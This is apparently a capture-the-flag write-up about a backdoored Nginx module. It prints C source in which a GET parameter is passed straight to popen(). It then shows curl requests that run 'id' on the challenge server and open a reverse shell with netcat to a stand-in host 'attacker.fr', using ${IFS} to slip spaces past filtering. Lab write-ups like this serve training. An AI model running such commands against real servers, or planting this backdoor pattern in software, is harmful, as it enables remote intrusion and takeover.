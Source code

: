 A look at the source code reveals a backdoored Nginx module that allows arbitrary commands to be executed on the server.

This function define the name of the Nginx directive in nginx.conf `root_me_backdoor on;`

```c
static ngx_command_t ngx_http_root_me_backdoor_commands[] = {
    { ngx_string("root_me_backdoor"),
      NGX_HTTP_LOC_CONF | NGX_CONF_FLAG,
      ngx_http_root_me_backdoor,
      NGX_HTTP_LOC_CONF_OFFSET,
      offsetof(ngx_http_root_me_backdoor_conf_t, backdoor),
      NULL },
    ngx_null_command
};
```

We discover a handler function which seems to parse GET parameter :

```c
ngx_str_t param_name = ngx_string("r00t-m3.backd0or");
ngx_str_t param_value;
```

The parameter `r00t-m3.backd0or` looks expected, and use to be sent in 'popen()' function :

```c
char *command = (char *) ngx_pnalloc(r->pool, param_value.len + 1);
if (command == NULL) {
    return NGX_HTTP_INTERNAL_SERVER_ERROR;
}

ngx_memcpy(command, param_value.data, param_value.len);
command[param_value.len] = '\0';

FILE *fp;
char result[1024];
fp = popen(command, "r");
if (fp == NULL) {
    return NGX_HTTP_INTERNAL_SERVER_ERROR;
}
```

It seems we discovered the backdoor!

And indeed we can use the Nginx module to execute commands :

```bash
curl 'http://node1.challenges.ctf20k.root-me.org:20614/Th1s_3ndp0int_1s_S3cr3t?r00t-m3.backd0or=id'
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
```

We can use this to get a reverse shell :
```bash
curl 'http://node1.challenges.ctf20k.root-me.org:20614/Th1s_3ndp0int_1s_S3cr3t?r00t-m3.backd0or=nc$\{IFS\}attacker.fr$\{IFS\}4444$\{IFS\}-e$\{IFS\}/bin/sh'
```
